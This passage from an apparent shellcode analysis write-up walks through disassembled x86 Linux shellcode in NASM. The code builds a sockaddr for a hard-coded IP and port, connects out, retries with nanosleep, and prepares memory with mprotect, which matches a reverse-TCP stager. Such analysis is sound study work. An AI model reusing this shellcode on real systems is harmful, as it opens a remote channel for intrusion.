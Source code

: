 ```nasm
xchg eax,edi
pop ebx     
```

The socket file descriptor in EAX is XCHG-ed into EDI and 0x02 is popped into EBX for the next `socketcall(2)` to `connect(2)`. 

```nasm
push dword 0x50110ac 
push dword 0x5c110002
mov ecx,esp          
```
A sockaddr struct (two bytes of protocol family, two bytes of port number, and four bytes of destination IP address) is built on the stack and the pointer to it is saved in ECX.

```nasm
push byte 0x66
pop eax
push eax      
push ecx      
push edi      
mov ecx,esp   
inc ebx       
int 0x80      
```
Now the rest of the the `connect(2)` call is made. PUSH POP is used to put the socketcall ID into EAX, and then the ID is pushed back as the length of the sockaddr struct. Then the pointer to the sockaddr struct, and the file descriptor are pushed. The pointer to these arguments are moved into ECX, EBX is incremented to the socketcall id for `connect(2)` and the syscall is made.

```nasm
test eax,eax
jns 0x48    
dec esi     
jz 0x6f     
```

The call to `connect(2)` should return zero, and the shellcode tests for this here. If it does return zero, it JMPs into a call to `mprotect(2)`. This is done by using the TEST instruction on EAX. TEST checks if the 31st bit is set and sets the sign flag to 1 if so and zero if not. JNS JMPs if the sign flag is not zero. If a syscall returns a signed, negative value it is returning an ERRNO, a clear indication of failure. If the sign flag is not set the jmp is taken. 

If the sign flag is set by test the ESI counter is decremented and a conditional JMP is evaluated. If ESI decrements to zero a JMP is taken to an exit(2) syscall at the end of the shellcode. 

```nasm
; nanosleep(2)
push dword 0xa2
pop eax        
push byte 0x0  
push byte 0x5  
mov ebx,esp    
xor ecx,ecx    
int 0x80       
```
